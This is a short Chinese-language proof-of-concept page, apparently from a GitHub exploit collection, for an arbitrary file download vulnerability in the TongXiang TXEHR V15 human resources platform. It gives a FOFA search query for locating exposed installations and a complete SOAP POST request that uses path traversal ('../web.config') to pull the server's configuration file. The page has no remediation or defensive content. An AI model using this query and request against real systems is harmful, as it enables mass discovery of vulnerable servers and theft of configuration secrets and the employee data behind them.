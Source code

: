 ## **同享人力管理管理平台DownloadFile存在任意文件下载漏洞**

同享软件成立于1997年，运营中心位于东莞南城南新产业国际。专注研发和推广人力资源信息化产品，帮助企业构建统一的人力资源数智化平台，快速提高企业人才管理能力，提升人力资源管理效率，帮助员工快速成长，协助企业实现智慧决策。同享TXEHR V15人力管理管理平台DownloadFile存在任意文件下载漏洞

## fofa

```yaml
body="/Assistant/Default.aspx"
```

## poc

```yaml
POST /Service/DownloadTemplate.asmx HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: ASP.NET_SessionId=f40br0ilcoosnxgllqrmltkd
Upgrade-Insecure-Requests: 1
Priority: u=1
SOAPAction: http://tempuri.org/DownloadFile
Content-Type: text/xml;charset=UTF-8
Host: 
Content-Length: 310

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:tem="http://tempuri.org/">
   <soapenv:Header/>
   <soapenv:Body>
      <tem:DownloadFile>
         <!--type: string-->
         <tem:path>../web.config</tem:path>
      </tem:DownloadFile>
   </soapenv:Body>
</soapenv:Envelope>
```

![image-20240710184711192](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407101847260.png)